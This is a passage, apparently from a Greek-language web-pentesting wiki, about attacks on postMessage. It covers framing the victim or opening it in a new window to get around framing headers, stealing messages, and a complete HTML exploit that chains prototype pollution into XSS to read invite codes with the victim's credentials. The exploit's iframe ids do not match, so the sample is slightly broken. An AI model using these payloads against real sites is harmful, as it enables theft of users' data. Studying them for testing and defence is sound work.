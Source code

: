 Για περισσότερες πληροφορίες **διαβάστε:**

{% content-ref url="bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

### Παράκαμψη X-Frame-Header

Για να εκτελέσετε αυτές τις επιθέσεις, ιδανικά θα πρέπει να μπορείτε να **τοποθετήσετε τη σελίδα του θύματος** μέσα σε ένα `iframe`. Αλλά ορισμένα headers όπως το `X-Frame-Header` μπορούν να **αποτρέψουν** αυτή τη **συμπεριφορά**.\
Σε αυτές τις περιπτώσεις μπορείτε να χρησιμοποιήσετε μια λιγότερο διακριτική επίθεση. Μπορείτε να ανοίξετε μια νέα καρτέλα στην ευάλωτη διαδικτυακή εφαρμογή και να επικοινωνήσετε μαζί της:
```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```
### Κλοπή μηνύματος που αποστέλλεται σε παιδί μπλοκάροντας την κύρια σελίδα

Στην παρακάτω σελίδα μπορείτε να δείτε πώς θα μπορούσατε να κλέψετε δεδομένα **ευαίσθητης postmessage** που αποστέλλονται σε ένα **child iframe** μπλοκάροντας την **κύρια** σελίδα πριν στείλετε τα δεδομένα και εκμεταλλευόμενοι μια **XSS στο παιδί** για να **leak the data** πριν παραληφθούν:

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### Κλοπή μηνύματος τροποποιώντας την τοποθεσία του iframe

Αν μπορείτε να iframe μια ιστοσελίδα χωρίς X-Frame-Header που περιέχει άλλο iframe, μπορείτε να **αλλάξετε την τοποθεσία αυτού του child iframe**, οπότε αν λαμβάνει ένα **postmessage** που αποστέλλεται χρησιμοποιώντας ένα **wildcard**, ένας επιτιθέμενος θα μπορούσε να **αλλάξει** την **προέλευση** αυτού του iframe σε μια σελίδα **που ελέγχει** και να **κλέψει** το μήνυμα:

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### postMessage σε Prototype Pollution και/ή XSS

Σε σενάρια όπου τα δεδομένα που αποστέλλονται μέσω του `postMessage` εκτελούνται από JS, μπορείτε να **iframe** την **σελίδα** και να **εκμεταλλευτείτε** την **prototype pollution/XSS** στέλνοντας την εκμετάλλευση μέσω του `postMessage`.

Μερικά από τα **πολύ καλά εξηγημένα XSS μέσω `postMessage`** μπορούν να βρεθούν στο [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)

Παράδειγμα μιας εκμετάλλευσης για να εκμεταλλευτείτε **Prototype Pollution και στη συνέχεια XSS** μέσω ενός `postMessage` σε ένα `iframe`:
```html
<html>
<body>
<iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
}

setTimeout(get_code, 2000);
```